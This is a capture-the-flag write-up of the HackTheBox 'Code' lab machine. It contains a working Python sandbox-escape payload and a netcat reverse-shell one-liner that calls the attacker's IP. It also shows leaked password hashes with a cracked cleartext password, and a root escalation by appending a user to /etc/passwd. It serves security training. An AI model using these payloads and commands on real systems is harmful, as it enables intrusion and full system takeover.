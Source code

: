 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!


Here is a writeup for Hackthebox `code machine`


Hackthebox `Code box `  is an easy linux machine.

![recon](/assets/hackthebox/code_pwn.png)
We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root


# Nmap scan
```
sudo nmap -A -T4 --min-rate 1000 10.10.11.62                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 22:29 WAT                                                             
Nmap scan report for 10.10.11.62                                                                                               
Host is up (0.76s latency).                                                                                                    
Not shown: 998 closed tcp ports (reset)                                                                                        
PORT     STATE SERVICE VERSION                                                                                                 
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)                                           
| ssh-hostkey:                                                                                                                 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)                                                                 
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)                                                                |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)                                                              
5000/tcp open  http    Gunicorn 20.0.4                                                                                         
|_http-title: Python Code Editor                                                                                               
|_http-server-header: gunicorn/20.0.4                                                                                          
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                            
TCP/IP fingerprint:

```

### Found two open port 22 for ssh and 5000 for  http 


When we navigate to http://10.10.11.62:5000/, we found web page that let you run python code.
I try injection in login and singup form by not success.
After some try and error i decide to focus on python code execution feature.
The idea here is to bypass sandbox and make code  code execution.
you can try to play with it to understand it better.
After spend some time, i knew that we deal with python sanbox, some keywork are blacklisted.
keyword like those:  ` system, exec, builtins, os , popen, read,...`. 

How to bypass this sandbox??? 
Below are  the steps:
- found a way to access buitins: print.__self__
- from buitins, access to __import__ to import os: `.__dict__.get('imp' +ort')('o'+'s')
- from os, call system to exec code on the remote server: .__getattribute__("sys" +"tem")
- exec your command: ("command")

The payload :

```python
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("command")"
```


I run nc in listen mode on my local machine
``nc -lvp 4444``

and send this payload:
```python3
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.79 4444 >/tmp/f")

```


# Bouummmm ! get reverse shell 

![recon](/assets/hackthebox/get_reverse_shell.png)

```bash
$ whoami
app-production
$ pwd
/home/app-production/app
$ ls ..
app
linpeas.sh
user.txt
$ cat user.txt
cat: user.txt: No such file or directory
$ cat ../user.txt
809b23efc5263f3987xxxxxxxxxxxxxxxxx
$ id
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)
$ ls /home
app-production
martin
$ 
```

We have martin user on the machine.
i read app.py and found some credential on it. 
I also noticed that the app use database.db sqlite for to store users info and code.
- Copy database.db into static directory
- download it by navigate to http://10.10.11.62:5000/static/database.db
- use `sqlite3 ` to retrive martin password from database.
```
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|gamer|7f99bef877271bf7dd4aee74c0629e32
sqlite> select * from code;
1|1|print("Functionality test")|Test
sqlite> 
```

martin md5 password is 3de6f30c4a09c27fc71932bfc68474be which is egal to `nafeelswordsmaster`


Now we can use that credential (martin:nafeelswordsmaster) to access to ssh:
```bash
ssh martin@10.10.11.62
```bash
ssh martin@10.10.11.62                                                   
martin@10.10.11.62's password:                                                                 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)                                                                                                                            
                                                                               
 * Documentation:  https://help.ubuntu.com                                     
 * Management:     https://landscape.canonical.com                                             
 * Support:        https://ubuntu.com/pro                                                      
                                                                                                                                                                                                                   
 System information as of Tue 22 Apr 2025 09:01:17 AM UTC                                      
                                                                               
  System load:           0.0                                                                   
  Usage of /:            64.6% of 5.33GB                                                                                                                                                                           
  Memory usage:          20%                                                                                                                                                                                       
  Swap usage:            0%                                                                              
  Processes:             234                                                   
  Users logged in:       0                                                                                                              
  IPv4 address for eth0: 10.10.11.62                                
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9a92                         
                                                                    
                                                                                                                                                              
Expanded Security Maintenance for Applications is not enabled.      
                                                                    
0 updates can be applied immediately.                               
                                                                                                                                                              
Enable ESM Apps to receive additional future security updates.                                                                                                
See https://ubuntu.com/esm or run: sudo pro status                             

                                                                                                                                                              
The list of available updates is more than a week old.                         
To check for new updates run: sudo apt update                                                  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings                                                                         
                                                                               
                                                                               
                                                                               
The programs included with the Ubuntu system are free software;                                                                                                                               
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                                                                                                          
applicable law.                                                                                

Last login: Tue Apr 22 09:01:21 2025 from 10.10.16.79                                          
martin@code:~$ whoami                                                                          
martin                                                                                         
martin@code:~$ id                                                                              
uid=1000(martin) gid=1000(martin) groups=1000(martin)                                          
martin@code:~$
```


# Time to priveEsc

I use linpeas.sh to enumerate
```
ls -al /etc/passwd
```
#### /etc/passwd is writable
so we can add new-user with root access
 - Generate new user password:
 ` openssl passwd -1 -salt ignite pass123`
```bash
echo 'new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new-user
```

![recon](/assets/hackthebox/root.png)

# And we pwn the box
